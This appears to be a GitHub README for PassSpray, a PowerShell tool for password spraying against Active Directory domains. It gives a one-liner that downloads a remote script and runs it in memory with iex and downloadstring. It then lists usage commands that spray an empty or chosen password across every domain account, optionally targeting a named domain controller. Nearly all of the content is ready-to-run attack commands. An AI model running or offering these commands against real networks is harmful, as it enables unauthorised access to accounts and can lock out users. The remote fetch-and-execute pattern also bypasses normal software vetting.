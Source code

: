 # PassSpray
Domain Password Spray

Important: Spraying passwords increases the Bad Pwd Count of the user you are trying to validate credentials for (for each wrong attempt)

### Load PassSpray in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Validate-Credentials/main/Validate-Credentials.ps1')
```

### Spray Empty password
```
Invoke-PassSpray
```

### Spray a password across the Domain
```
Invoke-PassSpray -Password P@ssw0rd!
```

### Spray a password across the Domain - Specify Domain and DC
```
Invoke-PassSpray -Password P@ssw0rd! -Domain ferrari.local -DomainController DC01.ferrari.local
```
